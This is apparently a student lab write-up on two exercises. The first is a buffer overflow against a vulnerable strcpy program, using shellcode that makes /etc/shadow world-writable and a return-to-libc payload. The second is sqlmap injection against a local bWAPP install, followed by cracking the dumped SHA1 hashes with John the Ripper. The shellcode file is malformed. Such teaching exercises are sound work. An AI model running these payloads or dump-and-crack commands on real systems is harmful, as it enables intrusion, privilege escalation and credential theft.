







# TangTamNhu
# Lab #1, 20110431, Tang Tam Nhu, INSE3308E_03FIE
# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
  
Description text (optional)
- We'll create 2 file `taskbuffer.c` and `shellcode.c` that contains 2 code content above
- Here is the stack frame `taskbuffer.c` program:


- Compile `taskbuffer.c` program and `shellcode.c` program to executable code.
      


- We will use Code Insert to insert shellcode directly into the program.
- We will create a payload that includes:
- First 16 bytes to fill the buffer.
- The shellcode address to override the program's return address.
- Use an older bash and turn off randomly given stack value.



- Create environmet variable `nhu` with `export`
  


- We need to find the address of `system`, `exit` and `nhu` variable and load `taskbuffer.out` into `gdb` and find them.
  - Address value of system: `0xf7e50db0` will be inserted with format `\xb0\x0d\xe5\xf7`
  - Address value of exit: `0xf7e449e0` will be inserted with format `\xe0\x49\xe4\f7`
  - Address value of the string of `nhu`: `0xffffde58` will be inserted with format `\x58\xde\xff\xff`
 


- Examine the stack frame. We need to add 20 bytes of padding, followed by the system address (4 bytes), exit (4 bytes), and preload (4 bytes). Thus, this is our directive:
```
r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x58\xde\xff\xff')")
```


output screenshot (optional)

- Before
  


- After


**Conclusion**: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection, return-to-lib-c.

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**: 
- Use the command below to get users information and crack the password
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dbs --batch
```
 

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**: 
- Use the command below to get tables
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dbs --tables --batch

```


- Use the command below to get users information and crack the password
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dump --batch
```


**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
- We already dumpped and stored the hashed password to a file for further exploit.
- To identity the hash algorithm, we will use hashid which is a library in python (hashid -mj hash_pw.txt)

- According to Hashid, john, notably the raw-sha1 format, can be used to crack the encryption: https://github.com/openwall/john/blob/bleeding-jumbo/doc/INSTALL-UBUNTU
```
    john --format=Raw-SHA1 hash_pw.txt
```

